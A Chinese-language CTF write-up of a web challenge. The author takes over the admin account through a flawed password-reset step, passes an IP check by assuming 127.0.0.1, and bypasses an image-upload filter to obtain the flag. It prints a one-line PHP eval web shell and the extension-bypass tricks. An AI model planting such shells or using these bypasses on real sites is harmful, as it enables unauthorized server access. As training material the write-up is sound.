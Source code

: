 # bug
## 题目描述
暂无
## 思路
http://220.249.52.133:36757  
点开题目链接，说是让登录，并且有三个页面可供选择，登录、注册、以及找回密码。  
![avatar](./picture/bug_1.png)  
随便注册了个用户，然后尝试一下，发现，进 manage 页面需要 admin 账户。  
![avatar](./picture/bug_2.png)  
尝试重复注册，失败。然后去看看找回密码是否有漏洞，发现是先验证，然后再重置密码，用 bp 试试：  
![avatar](./picture/bug_3.png)  
把红框内，由自己的账户，改为 admin 账户，会修改成功：  
![avatar](./picture/bug_4.png)  
那么我们用 admin 账户和新密码登录，发现在 manage 页面还会检查 ip，基于先验知识，猜测这个 ip 是 127.0.0.1，成功：  
![avatar](./picture/bug_5.png)  
但是，进入页面以后，没有任何可以操作的地方：  
![avatar](./picture/bug_6.png)  
那只能查看源码了：  
![avatar](./picture/bug_7.png)  
果然有提示，那么我们用这两个 GET 参数试一试，发现并不行：  
![avatar](./picture/bug_8.png)  
这个提示似乎是说，我们的 do 参数是不对的，也的确，怎么可能是三个问号。联系 module 参数中的 filemanage，是一个文件管理，因此推测不是文件上传（upload）就是文件下载（download），这两种都存在漏洞。先尝试上传，因为，这种漏洞在 ctf 中见的更多：  
![avatar](./picture/bug_9.png)  
结果出现了一个上传页面，果然是文件上传漏洞：  
![avatar](./picture/bug_10.png)  
根据 Just image 的提示，认为后缀名须是 .jpg 或者 .png 这种类型，然后编辑一段 php 代码：  
```php
//这里用的一句话木马，后面看了其他wp发现，好像随便整个php代码就行
<?php @eval($_POST['cmd']);?>
```
并把后缀名改为 .jpg：  
![avatar](./picture/bug_11.png)  
结果不行，他识别出这是 php 文件了：  
![avatar](./picture/bug_12.png)  
应该是后缀名出现了 php？那我们尝试一下用 php5 绕过：  
![avatar](./picture/bug_13.png)  
结果还是不行  
![avatar](./picture/bug_14.png)  
有点迷惑，这还咋改啊？去看了看 wp，发现要改代码……  
![avatar](./picture/bug_15.png)  
芜湖，刺激，还是不行，不过这次终于没有检测出是 php 了：  
![avatar](./picture/bug_16.png)  
他这个意思难道是本地检测 php？我们在 bp 里改一下文件名试试：  
![avatar](./picture/bug_17.png)  
并直接给出了 flag：  
![avatar](./picture/bug_18.png)  

